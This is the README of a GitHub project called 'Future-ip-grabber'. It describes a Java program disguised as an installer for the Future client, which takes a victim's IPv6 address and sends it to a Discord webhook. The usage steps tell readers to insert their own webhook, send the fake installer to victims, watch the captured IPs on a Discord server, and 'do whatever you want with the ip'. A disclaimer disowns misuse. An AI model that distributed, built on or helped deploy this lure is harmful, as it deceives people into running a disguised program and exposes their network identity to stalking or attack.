 # Future-ip-grabber
If someone wants Future client for free, sent them this, it has GUI that looks exactly like real Future installer. Grabs victims IPv6 address and sends it through a discord webhook.

## Usage

1. Go to releases tab and search for `https://github.com/Doundeway/Future-ip-grabber/releases/tag/1.0`
2. Paste your webhook into `sender webhook = new sender("https://discord.com/api/webhooks/{your webhook id}");`
3. Send it to your victim or victims (make sure they have Java installed otherwise this won't work)
4. Join this discord server to see your victims ip `https://discord.gg/TbpbZ5Xnss`
5. Do whatever you want with the ip



## Disclaimer 

Any malicious usage with this code isnt our fault. You are responsible for your own actions.
